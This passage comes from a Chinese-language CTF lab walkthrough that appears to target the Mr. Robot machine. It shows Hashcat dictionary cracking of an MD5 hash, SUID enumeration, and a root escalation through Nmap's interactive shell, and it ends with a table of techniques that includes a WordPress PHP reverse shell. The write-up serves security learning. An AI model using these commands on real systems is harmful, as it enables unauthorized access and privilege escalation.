`hash.list`，准备进行离线密码破解

### 3.2 Hashcat 字典破解

使用 Hashcat 对获取的 Hash 进行离线字典攻击

```shell
sudo hashcat -a 0 -m 0 hash.list ~/.exegol/workspaces/Zer0-hex/rockyou.txt
```

查看已破解结果：

```
sudo hashcat -m 0 hash.list --show
```



成功获得 `robot` 用户密码

> 本次使用的主要参数：
>
> | 参数     | 含义                         |
> | -------- | ---------------------------- |
> | `-a 0`   | Straight，字典攻击           |
> | `-m 0`   | MD5                          |
> | `--show` | 显示已破解的 Hash 及对应明文 |

注意：普通 MD5 与 md5crypt 并不是同一种 Hash 格式，不能仅凭算法名称判断 Hashcat 模式，需要先识别实际 Hash 格式

### 3.3 切换至 robot 用户

使用获取的密码切换至 `robot` 用户

```
su robot
```

检查当前用户及所属组：

```
id
```

检查 Sudo 权限：

```
sudo -l
```

返回：

```
Sorry, user robot may not run sudo on linux.
```

说明 `robot` 用户没有 Sudo 授权，需要继续寻找其他提权入口

### 3.4 SUID 文件枚举

SUID（Set User ID）是一种特殊权限

当具有 SUID 权限的可执行文件被运行时，进程可以使用文件所有者的有效 UID（EUID）执行操作，而不只是使用当前登录用户的身份

枚举系统中的 SUID 文件：

```
find / -perm -u=s -type f 2>/dev/null
```

参数说明：

| 参数          | 含义                     |
| ------------- | ------------------------ |
| `find /`      | 从根目录开始递归查找     |
| `-perm -u=s`  | 查找设置了 SUID 位的文件 |
| `-type f`     | 只查找普通文件           |
| `2>/dev/null` | 隐藏错误输出             |



在枚举结果中发现 Nmap 具有 SUID 权限

### 3.5 GTFOBins 查询利用方式

访问 [GTFOBins](https://gtfobins.github.io/)，查询 Nmap 在 SUID 场景下的利用方式

发现 Nmap 支持交互模式，可以通过交互模式执行系统命令，结合其 SUID 权限实现提权



### 3.6 Nmap SUID 提权

执行 Nmap 交互模式：

```
nmap --interactive
```

进入交互界面后执行：

```
!sh
```

利用具有 SUID 权限的 Nmap 执行 Shell，成功获得 Root 权限



## 4. 核心考点

| 考点                | 利用位置           | 核心原理                                   |
| ------------------- | ------------------ | ------------------------------------------ |
| Nmap 信息收集       | 主机发现与端口扫描 | 通过主机发现、端口扫描及服务探测识别攻击面 |
| SSL 证书信息提取    | HTTPS 服务         | 从证书 Subject 的 CN 字段获取域名线索      |
| 目录扫描            | Web 信息收集       | 枚举隐藏目录及文件                         |
| robots.txt 信息泄露 | Web 信息收集       | 通过公开资源获取敏感文件和字典             |
| WordPress 用户枚举  | 密码重置功能       | 利用响应差异判断有效用户名                 |
| 字典爆破            | WordPress 登录     | 利用泄露字典枚举有效密码                   |
| PHP Reverse Shell   | WordPress 主题文件 | 修改可执行 PHP 文件建立反向连接            |
| Hashcat             | robot 用户         | 对获取的 Hash 进行离线字典破解             |
| SUID                | Nmap               | 利用特殊权限程序以文件所有者身份执行命令   |
| GTFOBins            | Nmap               | 查询具有特殊权限的程序对应的利用方式       |
| Nmap SUID 提权      | robot → root       | 利用 Nmap 交互模式执行 Shell 获取高权限    |
